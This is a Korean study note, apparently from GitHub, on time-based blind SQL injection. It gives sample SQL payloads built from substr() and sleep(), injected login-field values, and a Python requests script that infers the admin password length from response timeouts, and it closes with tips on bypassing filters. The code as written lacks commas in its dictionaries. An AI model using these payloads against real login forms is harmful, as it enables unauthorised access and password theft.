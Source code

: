# Time based blind sqli

### Time based blind sqli 란

time based sql injection 과

blind sql injection 하고 서로 응용하면서 사용하는 기법이다.

간단하게 blind sql injection에 사용하는 쿼리에 time based 를 연결시켜 반환값을

확인하는 것이다.

<br>

__예 db 구조__
```sql
databases -> test

tables -> member

columns -> id , pw

data -> ('admin','password'),('guest','guest')
```

예)
```sql
SELECT * FROM member WHERE id='admin' and substr(pw,1,1)='p' and sleep(10);

SELECT * FROM member WHERE id='' and pw='' or id='admin' and substr(pw,1,1)='p' and sleep(10);
```

이런식으로 다양하게 blind sqli 와 time based sqli 를 합쳐서 반환값을 웹페이지상에서

확인을할 수 가있다.
* * *

python 에서는 
requests 같은 모듈로 HTTP POST 또는 GET 방식으로
전송할때 데이터를 조금만 더 추가하면된다.

<br>

__밑의 링크를 읽어보지않거나 공격 기법을 모르면 참고해도 좋다.__

+ [time based sql injection 이란?](https://github.com/kimminwyk/Study-notes/tree/master/SQL/MYSQL/MYSQL-SQL-injection/time-based-sql-injection)

+ [blind sql injection 이란?](https://github.com/kimminwyk/Study-notes/tree/master/SQL/MYSQL/MYSQL-SQL-injection/blind-sql-injection)

+ [자세한 blind sqli python script](https://github.com/kimminwyk/Study-notes/blob/master/SQL/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-python-script.md)

<br>

```sql
SELECT * FROM member WHERE id='' and pw=''
```

위의 sql 쿼리대로 time based blind sql injection 을 시도한다면

```py
body = {
    'uid':"admin' and substr(pw,1,1)='p' and sleep(10)--'"
    'upw':'a'
}
```

```py
import requests

Url = "in Url"

for length in range(1,100):
    data = {
        'uid':f"admin' and length(pw)={length} and sleep(10)--'"
        'upw':'a'
    }
    try:
        r = requests.post(Url,data = data,timeout = 2)

    except:
        print('userid admin in password length :',length)
```
이와같이 blind sqli 에 사용하는 쿼리과 time based sqli 와 사용하는 쿼리를 조합시켜 완성 시키면 된다.
* * *
그리고 sleep() 같은 함수를 굳이 사용하지않아도

time based sql injection 에서 필터링시에 우회할수있는 쿼리나 함수를 추가하면 된다.

<br>

### 마무리

blind sqli 과 time based sqli 과 합치면서

서로 필터링이 되지않는 함수들을 사용하여 우회를 하고

만들어진 query 로 전송하여 스크립트를 만들면 된다.
